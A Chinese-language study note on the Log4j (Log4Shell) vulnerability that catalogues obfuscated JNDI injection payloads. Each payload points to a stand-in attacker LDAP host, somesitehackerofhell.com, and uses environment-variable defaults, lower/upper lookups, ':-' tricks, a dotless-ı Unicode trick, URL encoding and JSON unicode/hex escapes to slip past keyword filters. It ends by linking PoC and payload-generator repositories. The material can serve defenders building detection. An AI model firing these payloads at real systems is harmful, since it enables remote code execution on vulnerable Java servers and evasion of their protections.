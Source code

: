 up::[[专题 Special Topic]]-[[log4j]]
- # 系统环境变量
	```
	  ${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
	```
	- 来自 Apache Log4j 2 文档：${env:ENV_NAME:-default_value}
	- 如果没有 ENV_NAME 系统环境变量，则使用 :- 后面的变量；攻击者可以使用任何名称代替 ENV_NAME，但它必须是不存在的环境变量。
- # Lookup方法：Lower / Upper
	```
	  ${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://somesitehackerofhell.com/z}
	  ${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://somesitehackerofhell.com/z}
	```
	- Lower Lookup 会将传入的参数转换为小写，嵌套形式如下：
		- ${lower:}
	- Upper Lookup 会将传入的参数转换为大写，嵌套形式如下：
		- ${upper:}
- # "::-" 符号
	```
	  ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
	```
	- 同系统环境变量部分。
- # ":-" 符号
	```
	  ${j${${:-l}${:-o}${:-w}${:-e}${:-r}:n}di:ldap://somesitehackerofhell.com/z}
	```
- # 无效的Unicode字符
	```
	  ${jnd${upper:ı}:ldap://somesitehackerofhell.com/z}
	```
	- 这里的 **ı(\u0131)** 不是 **i(\x69)和I(\x49)**，经过 upper 就会转变成 I，从而绕过了 jndi 关键词的拦截。
- # HTML编码
	```
	  } with %7D
	  { with %7B
	  $ with %24
	```
- # unicode / hex 编码特性
	- 虽然这个范围有点大可能会产生一些误报，但鉴于漏洞的严重性还是有很多人建议拦截 ${ 但这样也未必能够真正的解决，因为漏洞的触发点是在打印日志的时候把可控内容携带进去了。现在随着 JSON 数据格式的流行，很多系统都在使用 JSON 处理参数，JSON 处理库用的最多的就数 Jackson和fastjson。而 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，如：
	```
		  {"key":"\u0024\u007b"}
		  {"key":"\x24\u007b"}
	```
	- 这样就避开了数据包中有 ${ 的条件。
- # 来源
	- https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg
	- https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words
	- https://github.com/woodpecker-appstore/log4j-payload-generator
	- https://canarytokens.org/generate